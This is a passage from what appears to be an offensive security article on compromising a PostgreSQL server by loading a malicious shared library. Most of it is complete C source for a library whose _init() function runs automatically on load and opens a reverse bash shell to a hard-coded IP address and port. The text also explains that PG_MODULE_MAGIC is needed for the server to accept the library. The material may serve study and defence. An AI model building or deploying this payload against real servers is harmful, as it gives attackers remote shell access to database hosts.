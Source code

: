 
---[ 4.2 - Compiling the malicious library

One of the final steps is to compile a malicious library for the server to
load. The code will naturally vary depending on the OS the DBMS is running
under. For the Unix-like case, let's compile the following simple reverse
shell into an .so file. The "_init()" function will automatically fire on
library load:

</PRE>
```C
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

void _init() {
    /*
        code taken from https://www.revshells.com/
    */

    int port = 8888;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("172.23.16.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/bash", NULL};
    execve("/bin/bash", argv, NULL);
}
```
<PRE>


Notice the presence of the "PG_MODULE_MAGIC" field in the code. It is
required for the library to be recognized and loaded by the PostgreSQL
server.
